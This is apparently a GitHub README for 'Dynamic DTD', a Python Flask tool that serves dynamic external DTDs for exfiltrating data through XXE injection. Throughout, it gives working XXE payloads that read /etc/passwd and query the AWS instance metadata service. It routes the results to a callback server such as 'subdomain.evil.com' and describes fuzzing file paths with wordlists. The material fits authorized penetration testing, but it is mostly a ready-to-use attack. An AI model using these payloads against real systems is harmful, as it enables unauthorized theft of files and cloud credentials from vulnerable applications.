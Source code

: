 # Dynamic DTD
A python Flask app that generates dynamic DTDs for easy data exfiltration.

Usually when using external DTDs to perform data exfiltration with an XXE Injection vulnerability, you have to keep modifying the DTD, updating the external entity to point to new locations (files, internal web resources, etc.) every time you want to exfiltrate something new. This simple python Flask app allows you to create dynamic DTDs based on a single URL parameter, meaning that you can easily use it with your favorite fuzzer and file wordlist, sit back, and watch the data come in.

## Installation

Installation is simple. Just clone this repository, and install flask using pip:

```bash
pip3 install flask
```

## Configuration

There are generally two ways to use an external DTD to exfiltrate data: sending the data as part of a URL to a server you control, or triggering an error message in the application which includes the data.

If you are using the former, in `app.py`, on line 5, change the `callback` variable to the URL of either a Burp collaborator payload, or even just a web server you can view access logs on. Include the scheme, port number if it is non-standard, but leave off the trailing slash ( / ). An example can be seen below:

```
callback = "https://subdomain.evil.com:8443"
```

Alternatively, you can pass the URL of the callback server as a URL parameter `callback` in payloads themselves (see Usage).

## Usage

Change to the directory of `app.py` and run the following command, specifying the port you want the server to run on, and the IP of the interface you wish to use.

```bash
flask run -p <port> -h <interface-ip>
```

Once the server is running, you can generate DTDs in two different ways, depending on the exfiltration technique you wish to use:

### Out-of-Band Exfiltration

For Out-of-Band exfiltration, use the /oob.dtd path to generate dynamic DTDs. You can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `resource` parameter to appropriate values:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?resource=file:///etc/passwd"> %xxe;]>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear in the access logs of the `callback` server specified earlier. Note that for some parsers, only the first line of the file may get sent.

You can also set the `callback` server dynamically in the payload by using a `callback` parameter in the URL, setting it in the same way as in the script (i.e. including the scheme, port number if it is non-standard, and leaving off the trailing slash):

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?callback=https://subdomain.evil.com:8443&resource=file:///etc/passwd"> %xxe;]>
```

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `resource` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https). For example, the following payload can be used to try and extract information from the AWS Instance Metadata API:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?resource=http://169.254.169.254/latest/dynamic/instance-identity/document"> %xxe;]>
```

### Error Message Exfiltration

For error message exfiltration, use the /error.dtd path to generate dynamic DTDs. You can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `resource` parameter to appropriate values:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/error.dtd?resource=file:///etc/passwd"> %xxe;]>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear within an error message in the application itself. Since this is an in-band technique, the `callback` variable is not used.

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `resource` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https).

